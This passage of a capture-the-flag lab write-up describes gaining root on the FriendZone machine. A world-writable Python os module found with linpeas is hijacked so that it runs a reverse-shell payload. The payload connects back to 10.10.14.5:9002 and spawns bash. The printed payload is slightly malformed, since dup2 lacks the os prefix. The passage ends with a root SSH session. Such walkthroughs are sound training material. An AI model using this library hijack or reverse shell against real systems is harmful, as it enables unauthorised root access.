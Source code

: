  ```bash
# I need to edit the script later
# Sam ~ python developer

 ```
 - But this file isn't updating or writing anywhere.
 - Runnig linpeas. Interesting result:
 ```bash
 [+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)                                                                            
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files  
...[snip]...

/usr/lib/python2.7                                                                                                       
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc                    

...[snip]...

 ```
 - This is because the python script is importing os module. Thus we can change os module to get a reverse shell as root.
 ```python
import socket,subprocess,os                                                       
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)                                 
s.connect(("10.10.14.5",9002))                                                     
dup2(s.fileno(),0)                                                                 
dup2(s.fileno(),1)                                                                 
dup2(s.fileno(),2)                                                                 
import pty                                                                         
pty.spawn("/bin/bash")                        
 ```
 - Adding a revshell script to os module and got the rev shell
 ![[Pasted image 20210329183250.png]]
 - For sanity sake, just add your ssh pub key to root if you want to try anything.
 ```bash
ssh -i friendzone root@10.10.10.123
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jan 24 01:12:41 2019
root@FriendZone:~# ls
certs  root.txt
root@FriendZone:~# ls
certs  root.txt
root@FriendZone:~# ^C
root@FriendZone:~# logout
Connection to 10.10.10.123 closed.

 ```